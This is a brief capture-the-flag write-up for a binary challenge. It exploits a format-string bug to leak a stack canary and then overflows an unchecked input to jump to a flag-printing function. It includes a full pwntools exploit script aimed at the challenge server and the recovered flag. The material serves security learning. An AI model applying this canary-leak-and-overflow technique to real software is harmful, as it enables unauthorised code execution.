

The main just call `wake()` function (which print stuff) and the call `greet()`:



First input is print format string bug. So we can leak the canary.
The length of the second input is not checked. We know the print flag function is at 0x0000000000400787.
So we can use 2nd input to oveflow (overwriting the canary right).


Exploit:
```python
from pwn import *
import struct

fs = "%17$lx"

flag = 0x0000000000400787
p = remote('shell.actf.co', 20701)

print((p.recvuntil('name? ')).decode())
p.sendline(fs.encode())
buf = (p.recvuntil('!\n').decode())
print(buf)
canary = (int((buf.split()[4].split('!')[0]), 16))
print((canary))
print(p.recvuntil('? ').decode())
payload = (("A"*56).encode())
payload += struct.pack("<Q", canary)
payload += (("A"*8).encode())
payload += struct.pack("Q", flag)

'''
payload += struct.pack("<Q", pop_rdi)
payload += struct.pack("<Q", cat_flag)
payload += struct.pack("<Q", system_plt)
'''
p.sendline(payload)
p.interactive()
```

# FLAG
```
actf{youre_a_canary_killer_>:(}
```
